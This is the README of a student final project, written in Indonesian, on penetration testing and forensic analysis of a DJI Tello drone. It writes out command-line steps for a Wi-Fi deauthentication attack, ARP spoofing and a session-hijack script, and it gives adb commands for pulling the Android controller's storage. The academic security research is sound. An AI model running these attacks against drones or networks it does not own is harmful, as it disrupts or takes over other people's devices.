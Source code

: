 # 🏁 Tugas Akhir (TA) - Final Project

**Nama Mahasiswa**: Akbar Putra Asenti Priyanto 
**NRP**: 5025211004 
**Judul TA**: Penetration Test dan Analisis Forensik pada Drone Komersial  
**Dosen Pembimbing**: Hudan Studiawan, S.Kom., M.Kom.,Ph.D.  
**Dosen Ko-pembimbing**: Baskoro Adi Pratomo, S.Kom., M.Kom.

---

## 📺 Demo Aplikasi  
[![Demo Aplikasi](https://i.ytimg.com/vi/17bLWl3gKGE/maxresdefault.jpg)](https://www.youtube.com/watch?v=17bLWl3gKGE)  
**Klik gambar di atas untuk menonton demo**
---

*Konten selanjutnya hanya merupakan contoh awalan yang baik. Anda dapat berimprovisasi bila diperlukan.*

## 🛠 Panduan Instalasi & Menjalankan Software  

### Prasyarat  
- Daftar dependensi:
  - Python + pip
  - Wireshark
  - OS Kali Linux (Bisa dijalankan melalui Virtual Machine)
  - Oracle VM VirtualBox (Jika menjalankan serangan melalui VM)
  - DatCon (https://datfile.net/)
- Dependensi Tools Penyerangan:
  - aircrack-ng (Otomatis terinstal pada Kali Linux)
  - arpspoof / dsniff (Otomatis Terinstal pada Kali Linux)
  - djitellopy (https://github.com/damiafuentes/DJITelloPy)
- Dependensi Akuisisi Android:
  - adb (https://developer.android.com/tools/adb)

### Langkah-langkah  
1. **Clone Repository**  
   ```bash
   git clone https://github.com/Informatics-ITS/TA.git
   ```
2. **Instalasi Dependensi**
   ```bash
   cd [folder-proyek]
   pip install -r requirements.txt  # Contoh untuk Python
   npm install  # Contoh untuk Node.js
   ```
3. **Memperoleh IP dan MAC drone dan Kontroler**:

4. **Jalankan Serangan**
   
   - **Skenario Deauthentication Attack**:

   ```sudo airmon-ng start <interface>```

   ```sudo airodump-ng <interface_mon>```
   ```
   sudo iwconfig <interface_mon> channel <channel>
   sudo aireplay-ng --deauth <jumlah paket> -a <MAC Drone> -c <MAC Client> <interface_mon>
   ```

   - **Skenario ARP Spoofing**:
   Sebelum menjalankan serangan, pastikan mesin penyerang terhubung pada jaringan drone DJI Tello.
   ```
   sysctl-w net.ipv4.ip_forward=1
   sudo arpspoof -i wlan0 -t <ip client> <ip drone>
   sudo arpspoof -i wlan0 -t <ip drone> <ip client>
   ```

   - **Skenario Session Hijacking**:
   Sebelum menjalankan serangan, pastikan mesin penyerang terhubung pada jaringan drone DJI Tello.
   ```
   cd hijack
   python tello_control.py
   ```

   - **Capture Jaringan dengan Wireshark**:
   ```sudo wireshark```
   Lakukan capture jaringan pada interface yang digunakan dalam penyerangan.

5. **Akuisisi Kontroler Android**
   - Pertama-tama, download adb (android debug bridge) pada tautan https://developer.android.com/tools/adb:
   - Hubungkan perangkat android menggunakan USB pada mesin.
   - Jalankan command berikut pada direktori download adb: 
   ```
   adb start-server
   adb devices -l
   adb shell ls
   adb pull /storage/emulated/0/
   ```
   - Pada android, log penerbangan DJI Tello ditemukan pada direktori `/0/Android/data/com.ryzerobotics.tello/files/droneLog/`, sedangkan video penerbangan pada direktori `/0/Movies/TelloVideo/`

6. **Proses Log dengan DatCon**
   - Download software DatCon pada ```https://datfile.net/```
   - Saat dibuka, DatCon akan menampilkan GUI. Isi direktori .DAT yang sesuai dan direktori output yang sesuai pada halaman utama DatCon.
   - Pencet tombol "GO!" pada bagian bawah GUI
   - DatCon akan menghasilkan hasil .csv dari .DAT yang dimasukkan.
---

## 📚 Dokumentasi Tambahan

- [![Dokumentasi API]](docs/api.md)
- [![Diagram Arsitektur]](docs/architecture.png)
- [![Struktur Basis Data]](docs/database_schema.sql)

---

## ✅ Validasi

Pastikan proyek memenuhi kriteria berikut sebelum submit:
- Source code dapat di-build/run tanpa error
- Video demo jelas menampilkan fitur utama
- README lengkap dan terupdate
- Tidak ada data sensitif (password, API key) yang ter-expose

---

## ⁉️ Pertanyaan?

Hubungi:
- Penulis: [akbar.putra02.ap@gmail.com]
- Pembimbing Utama: [studiawan@gmail.com]
